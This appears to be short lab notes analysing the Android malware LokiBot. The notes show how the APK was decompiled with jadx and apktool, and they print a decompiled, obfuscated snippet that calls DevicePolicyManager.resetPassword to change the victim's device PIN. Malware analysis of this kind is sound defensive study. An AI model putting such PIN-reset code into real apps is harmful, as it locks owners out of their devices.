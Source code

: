 # Android Malware LokiBot
### Steps

**1. Download and unpack LokiBot.apk**
- Download and rename to "LokiBot.apk" (or app.apk)
- `jadx-gui` and check decompiled code
  - *Remark: had to set path to the $path variable again: `export PATH=$PATH:/home/hacker/jadx/build/jadx/bin`*
- Not done but would have been possible to analyze code on the level of java byte code:  'apktool d LokiBot.apk' 


**2. Check what to look for**
LokiBot sets/resets the device PIN. So first thing to do is find the programming interface that does just that.

Candidate: DevicePolicyManager.resetPassword (or resetPasswordWithToken)
https://developer.android.com/reference/android/app/admin/DevicePolicyManager

**3. Finde usage resetPassword**
Found in class compse.refact.st.upsssss.resetPassword

relevant code
```
public class resetPassword extends Activity {
    public void fsafsdfsfsdfsfsdfsd() {
        ((DevicePolicyManager) getSystemService(rthrthrtjrtjrjtdcbcvbc.fsafsdfsfsdfsfsdfsd("e4w8b4^!n=h2x"))).resetPassword(e.fsafsdfsfsdfsfsdfsd("F\"F\"F\""), 0);

        //new pw: e.fsafsdfsfsdfsfsdfsd("F\"F\"F\"")
    }
}
``
